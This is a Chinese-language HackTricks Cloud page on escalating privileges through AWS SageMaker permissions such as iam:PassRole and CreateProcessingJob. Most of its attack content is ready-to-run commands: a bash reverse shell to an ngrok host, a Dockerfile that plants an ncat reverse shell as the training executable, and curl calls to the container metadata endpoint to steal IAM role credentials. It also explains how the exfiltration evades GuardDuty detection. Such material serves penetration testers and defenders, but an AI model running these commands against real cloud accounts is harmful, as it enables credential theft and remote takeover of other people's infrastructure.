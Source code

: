 # AWS - Sagemaker 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## sagemaker

### `iam:PassRole`，`sagemaker:CreateNotebookInstance`，`sagemaker:CreatePresignedNotebookInstanceUrl`

此攻击过程的第一步是**识别一个信任SageMaker的角色以便扮演它**（sagemaker.amazonaws.com）。完成后，我们可以运行以下命令来创建一个附加了该角色的新笔记本：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
如果成功，您将在AWS的响应中收到**新笔记本实例的ARN**。这将需要**几分钟**时间来启动，但一旦完成，我们可以运行以下命令来获取预签名的URL，以通过我们的**网络浏览器访问笔记本实例**。可能还有其他方法可以获得访问权限，但这是一个单一权限和单一API调用，所以看起来很简单。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
如果这个实例已经完全启动，这个API调用将返回一个**我们可以在浏览器中访问的签名URL**以访问该实例。一旦在浏览器中到达Jupyter页面，我将点击右上角的"Open JupyterLab"，如下截图所示。

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

在下一个页面，滚动到“Launcher”标签页的最下方。在“Other”部分，点击“Terminal”按钮，如下图所示。

![](<../../../.gitbook/assets/image (27).png>)

从终端，我们有几个选项，其中一个是直接**使用AWS CLI**。另一个选项是直接**联系EC2元数据**服务获取IAM角色的凭证，并将它们泄露出去。

当上面提到“泄露它们”时，你可能会想到GuardDuty，但实际上我们这里不需要担心GuardDuty。相关的GuardDuty发现是[“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11)，如果角色的凭证从EC2实例被盗并在其他地方使用，它会发出警报。幸运的是，对我们来说，这个EC2实例实际上并不在我们的账户中，而是一个**托管在AWS拥有的账户中的托管EC2实例**。这意味着**我们可以泄露这些凭证而不用担心触发**我们目标的GuardDuty检测器。

**潜在影响：**升级到指定的sagemaker服务角色权限。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

类似于前面的例子，如果Jupyter**笔记本已经在运行**，并且你可以使用sagemaker:ListNotebookInstances列出它们（或以任何其他方式发现它们）。你可以**为它们生成一个URL，访问它们，并像前面的技术所指示的那样窃取凭证**。
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**潜在影响：** 提升至附加的 sagemaker 服务角色权限。

### `sagemaker:CreateProcessingJob,iam:PassRole`

拥有这些权限的攻击者可以使 **sagemaker 执行一个附加了 sagemaker 角色的 processingjob**。攻击者可以指定将在 **AWS 管理的 ECS 账户实例**中运行的容器的定义，并且 **窃取附加的 IAM 角色的凭证**。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响：**提升至指定的 sagemaker 服务角色权限。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练任务，**运行一个任意容器**，并且附加一个**角色**。因此，攻击者将能够窃取该角色的凭证。

{% hint style="warning" %}
这个场景比前一个要难以利用，因为你需要生成一个 Docker 镜像，该镜像将直接将反向 shell 或凭证发送给攻击者（你不能在训练任务的配置中指定启动命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响：** 提升至指定的 sagemaker 服务角色权限。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

拥有这些权限的攻击者将（可能）能够创建一个**超参数训练作业**，在其上**运行任意容器**并附加一个**角色**。\
_由于时间限制，我没有进行利用，但看起来与之前的利用类似，欢迎发送 PR 提供利用细节。_

<details>

<summary><strong>从零开始学习 AWS 黑客攻击成为英雄，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 HackTricks 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
